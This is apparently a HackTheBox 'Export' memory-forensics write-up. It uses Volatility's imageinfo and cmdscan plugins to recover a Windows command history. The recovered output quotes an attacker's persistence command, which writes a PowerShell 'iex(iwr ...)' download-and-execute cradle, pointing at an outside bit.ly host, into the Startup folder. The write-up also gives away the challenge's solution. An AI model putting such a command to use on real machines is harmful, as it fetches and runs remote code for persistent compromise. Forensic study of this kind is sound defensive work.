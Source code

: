 # Export

Completed: Yes
Date: July 2, 2021 → July 2, 2021
Platform: HackTheBox

Use volatility as it is a memory dump. Identifying profile:

```bash
~/tools/volatility/volatility_2.6_lin64_standalone -f WIN-LQS146OE2S1-20201027-142607.raw imageinfo
Volatility Foundation Volatility Framework 2.6
INFO    : volatility.debug    : Determining profile based on KDBG search...
          Suggested Profile(s) : Win7SP1x64, Win7SP0x64, Win2008R2SP0x64, Win2008R2SP1x64_23418, Win2008R2SP1x64, Win7SP1x64_23418
                     AS Layer1 : WindowsAMD64PagedMemory (Kernel AS)
                     AS Layer2 : FileAddressSpace (/home/kali/Downloads/WIN-LQS146OE2S1-20201027-142607.raw)
                      PAE type : No PAE
                           DTB : 0x187000L
                          KDBG : 0xf80001a540a0L
          Number of Processors : 1
     Image Type (Service Pack) : 1
                KPCR for CPU 0 : 0xfffff80001a55d00L
             KUSER_SHARED_DATA : 0xfffff78000000000L
           Image date and time : 2020-10-27 14:26:09 UTC+0000
     Image local date and time : 2020-10-27 19:56:09 +0530
```

Check the options and opportunities of volatility:

```bash
Supported Plugin Commands:

  amcache         Print AmCache information
  apihooks        Detect API hooks in process and kernel memory
  atoms           Print session and window station atom tables
  atomscan        Pool scanner for atom tables
  auditpol        Prints out the Audit Policies from HKLM\SECURITY\Policy\PolAdtEv
  bigpools        Dump the big page pools using BigPagePoolScanner
  bioskbd         Reads the keyboard buffer from Real Mode memory
  cachedump       Dumps cached domain hashes from memory
  callbacks       Print system-wide notification routines
  clipboard       Extract the contents of the windows clipboard
  cmdline         Display process command-line arguments
  cmdscan         Extract command history by scanning for _COMMAND_HISTORY
  consoles        Extract command history by scanning for _CONSOLE_INFORMATION
  crashinfo       Dump crash-dump information
```

The challenge description says that the attackers did something on the machine. So, the right way to think is some command line activity. Thus, the right option is cmdscan.

```bash
~/tools/volatility/volatility_2.6_lin64_standalone -f WIN-LQS146OE2S1-20201027-142607.raw --profile Win7SP1x64 cmdscan
Volatility Foundation Volatility Framework 2.6
**************************************************
CommandProcess: conhost.exe Pid: 1780
CommandHistory: 0x257430 Application: cmd.exe Flags: Allocated, Reset
CommandCount: 1 LastAdded: 0 LastDisplayed: 0
FirstCommand: 0 CommandCountMax: 50
ProcessHandle: 0x60
Cmd #0 @ 0x23bde0: echo iex(iwr "http%3A%2F%2Fbit.ly%2FSFRCe1cxTmQwd3NfZjByM05zMUNTXzNIP30%3D.ps1") > C:\Users\user\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup\3usy12fv.ps1
**************************************************
CommandProcess: conhost.exe Pid: 1796
CommandHistory: 0x2c6a90 Application: DumpIt.exe Flags: Allocated
CommandCount: 0 LastAdded: -1 LastDisplayed: -1
FirstCommand: 0 CommandCountMax: 50
ProcessHandle: 0x60
```

Here, we see that the attackers wrote the link to a file, which they wanted, I think, to execute later. The link is a base64 encoded flag.